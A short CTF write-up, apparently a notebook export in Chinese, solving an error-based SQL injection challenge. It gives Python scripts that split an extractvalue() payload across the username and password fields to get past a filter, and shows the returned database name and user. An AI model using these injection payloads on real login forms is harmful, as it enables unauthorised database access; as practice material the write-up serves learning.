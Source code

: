 # sql注入之报错注入——加了料的报错注入

0x01
===
<img src="http://wujiashuaitupiancunchu.oss-cn-shanghai.aliyuncs.com/jupyter_notebook_img/5wspylsy8c8.png" width="600px" />

[题目链接](http://ctf5.shiyanbar.com/web/baocuo/index.php)

0x02 解题
===
### 获取数据库名称
code
```python
import requests

data={'username':"'or extractvalue/*",
"password":"*/(1, concat(0x5c,(select database()))) or'"}
r = requests.post("http://ctf5.shiyanbar.com/web/baocuo/index.php",data=data)
r.encoding='utf-8'
print(r.text)
```
output
```shell
<br>XPATH syntax error: '\error_based_hpf'
```
### 获取用户名称
code
```python
import requests

data={'username':"'or extractvalue/*",
"password":"*/(1, concat(0x5c,(select user()))	) or'"}
r = requests.post("http://ctf5.shiyanbar.com/web/baocuo/index.php",data=data)
r.encoding='utf-8'
print(r.text)
```
output
```shell
<br>XPATH syntax error: '\web8@localhost'

```

```{.python .input}

```
